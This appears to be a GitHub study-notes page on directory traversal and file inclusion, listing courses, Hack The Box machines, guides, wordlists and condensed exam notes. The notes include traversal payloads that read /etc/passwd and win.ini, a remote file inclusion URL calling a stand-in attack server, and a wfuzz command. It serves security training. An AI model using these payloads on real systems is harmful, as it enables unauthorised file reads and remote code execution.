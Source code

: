 ![image](https://github.com/user-attachments/assets/9ca23281-ecee-452f-86de-79fff53cd728)

# Directory Traversal

## Training Resources
---

### Courses

*Free*
- [PortSwigger Academy - Path Traversal](https://portswigger.net/web-security/file-path-traversal)

*Paid*
- [HTB - File Inlusion](https://academy.hackthebox.com/course/preview/file-inclusion)
- [THM - File Inclusion](https://tryhackme.com/r/room/fileinc)
- [THM - File Inclusion, Path Traversal](https://tryhackme.com/r/room/filepathtraversal)

#

### Hack The Box Machines
*These machines are tagged as containing Directory Traversal/LFI/RFI by HTB, the difficulty refers to the box as a whole and not necessarily the Directory Traversal/LFI/RFI element.*

| Machine Name | Difficulty | Completed |
| -- | -- | -- |
| GetLab | Very Easy | |
| Archive | Easy | |
| Trick | Easy | |
| Topology | Easy | |
| Bagel | Easy | |
| Backdoor | Easy | |
| Tabby | Easy | |
| Bookworm | Easy | |
| BigHead | Easy | |
| Stocker | Easy | |
| Mailing | Easy | |
| Llama | Easy | |
| LaCasaDePapel | Easy | |
| Laboratory | Easy | |
| Inject | Easy | |
| Haystack | Easy | |
| GreenHorn | Easy | |
| Gem | Easy | |
| FriendZone | Easy | |
| ServMon | Easy | |
| Repetitive | Easy | |
| Pilgrimage | Easy | |
| Paper | Easy | |
| OpenSource | Easy | |
| OpenAdmin | Easy | |
| Poison | Medium | |
| OnlyForYou | Medium | |
| Nineveh | Medium | |
| Format | Medium | |
| Resource | Medium | |
| Faculty | Medium | |
| Encoding | Medium | |
| Sniper | Medium | |
| StreamIO | Medium | |
| Devzat | Medium | |
| DevOps | Medium | |
| CrimeStoppers | Medium | |
| Cerberus | Medium | |
| Beep | Medium | |
| Awkward | Medium | |
| Ambassador | Medium | |
| Writer | Medium | |
| Zipping | Medium | |
| Waldo | Medium | |
| UpDown | Medium | |
| Unicode | Medium | |
| Unattended | Medium | |
| Timing | Medium | |
| TartarSauce | Medium | |
| Ghoul | Hard | |
| Flight | Hard | |
| BroScience | Hard | |
| Clicker | Hard | |
| Cybermonday | Hard | |
| EarlyAccess | Hard | |
| Download | Hard | |
| ForwardSlash | Hard | |
| FormulaX | Hard | |
| Intuition | Hard | |
| Monitors | Hard | |
| Moderators | Hard | |
| OverGraph | Hard | |
| Player | Hard | |
| Pikaboo | Hard | |
| Patents | Hard | |
| Reel2 | Hard | |
| RE | Hard | |
| Proper | Hard | |
| Pollution | Hard | |
| Seventeen | Hard | |
| Spooktrol | Hard | |
| Snoopy | Hard | |
| Smasher | Insane | |
| Response | Insane | |
| PikaTwoo | Insane | |
| Fingerprint | Insane | |
| Fatty | Insane | |
| Blunder | Insane | |
| Breadcrumbs | Insane | |

### Other Resources
---
**PT Guides**
- [HackTricks - File Inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
- [Sushant OSCP Guide - LFI](https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html)
- [Sushant OSCP Guide - RFI](https://sushant747.gitbooks.io/total-oscp-guide/content/remote_file_inclusion.html)
- [My Guide Path Manipulation](https://tom23rose.gitbook.io/testingmethodology/web-testing/exploitation/path-manipulation)
- [The Hacker Recipes - Directory Traversal](https://www.thehacker.recipes/web/inputs/directory-traversal#%F0%9F%9B%A0%EF%B8%8F-directory-traversal)
- [The Hacker Recipes - File Inclusion](https://www.thehacker.recipes/web/inputs/file-inclusion/#file-inclusion)
- [The Hacker Recipes - Directory Fuzzing](https://www.thehacker.recipes/web/recon/directory-fuzzing#directory-fuzzing) - Could be useful
#
**Bug Bounty Write Ups**
- [Collection of LFI WriteUps](https://github.com/alexbieber/Bug_Bounty_writeups#local-file-inclusion-lfi)
#
**Methodologies**
- [OWASP Methodology - Directory Traversal FIle Include](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/05-Authorization_Testing/01-Testing_Directory_Traversal_File_Include)
- [OWASP Wiki - LFI](https://wiki.owasp.org/index.php/Testing_for_Local_File_Inclusion)
#
**Wordlists**
- [PATT - Collection of LFI Wordlist]([https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/JHADDIX_LFI.txt](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI))
- [PATT - Linux Files of Interest](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/Linux-files.txt)
- [PATT - Windows Files of Interest](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/LFI-WindowsFileCheck.txt)
#

## Condensed Notes
This is a condensed version of the notes I used during OSWA and are by no means complete. Make your own notes and methodology, building off these basic steps. 

Firstly some definitions related to "Path Manipulation" vulnerabilities:
**Directory Listing:** The ability to view directories you shouldn't have access to.
**Directory Traversal (Path Traversal):** The ability to view files in directories you shouldn't have access to. 
**Local File Inclusion:** The ability to execute a file on the target system that you shouldn't be able to or have access to. 
**Remote File Inclusion:** The ability to get the target to execute a file from a remote location, eg. a malicious attack server.

- Look for suggestive parameters hinting at interactions with a file:
```bash
https://insecure-website.com/loadImage?filename=123.png
```
- Try to access files locally (LFI).
```bash
# Linux
https://insecure-website.com/loadImage?filename=../../../etc/passwd

# Windows
https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini
```
- Try to access remote files (RFI) - With server set up on your attack machine.
```bash
http://example.com/index.php?filename=http://attack-server.com/welcome.php
```
- Try encoding the payloads.
- Use automated tools such as Wfuzz:
```bash
wfuzz -c --hh <normal-reponse-size> --hc 404 -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt http://example/file.php?path=FUZZ
```
- Burp Suite Scans will attempt to discover this type of vulnerability. 
